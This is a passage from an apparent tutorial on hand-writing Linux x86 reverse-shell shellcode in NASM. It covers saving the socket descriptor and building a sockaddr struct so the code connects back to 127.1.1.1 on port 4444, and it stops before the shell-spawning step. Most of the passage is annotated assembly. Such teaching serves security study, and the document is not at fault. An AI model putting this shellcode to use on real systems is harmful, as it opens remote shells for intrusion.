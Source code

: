 which returns a socket file descriptor to `eax`.          

In the end:
```nasm
xchg edx, eax    ; save result (sockfd) for later usage
```

### connect to a specified IP and port       

First you need the standard socketcall-syscall in `al` again:       
```nasm
; int socketcall(int call, unsigned long *args);
mov  al, 0x66    ; socketcall 102
```

Let's go to look at the `connect()` arguments, and the most interesting argument is the `sockaddr` struct:
```cpp
struct sockaddr_in {
   __kernel_sa_family_t  sin_family;   /* Address family    */
  __be16                 sin_port;     /* Port number       */
  struct in_addr         sin_addr;     /* Internet address  */
};
```

So you need to place arguments at this point. Firstly, `sin_addr`, then `sin_port` and the last one is `sin_family` (remember: reverse order!):     
```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
push word 0x5c11 ; sin_port = 4444
```

![push IP port](./images/14/2021-10-16_13-05.png){width="80%"}       

`ebx` contains 0x1 at this point because of pressing `socket_type` during the `socket ()` call, so after increasing `ebx`, ebx should be `0x2` (the `sin_family` argument):

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Then save the stack pointer to this sockaddr struct to `ecx`:

```nasm
mov  ecx, esp    ; move stack pointer to sockaddr struct
```
